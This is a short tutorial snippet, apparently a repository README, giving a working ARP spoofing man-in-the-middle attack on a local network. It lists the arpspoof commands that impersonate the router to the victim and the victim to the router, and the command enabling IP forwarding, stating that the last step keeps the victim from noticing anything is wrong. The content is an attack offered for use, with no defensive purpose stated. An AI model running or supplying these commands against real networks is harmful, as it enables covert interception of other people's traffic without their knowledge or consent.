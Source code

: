 ARP Spoofing is One of The Best Wireless Attack on Local Network . 

I AM ROUTER:

arpspoof -i eth0 -t 192.168.0.1 192.168.0.103

I AM Victim :

arpspoof -i eth0 -t 192.168.0.103 192.168.0.1

ENABLING PORT FORWARDING :

If you miss this step then the Victim Internet Will be Goes Off and He Know That Something is Wrong With Wireless Network

echo '1' > /proc/sys/net/ipv4/ip_forward


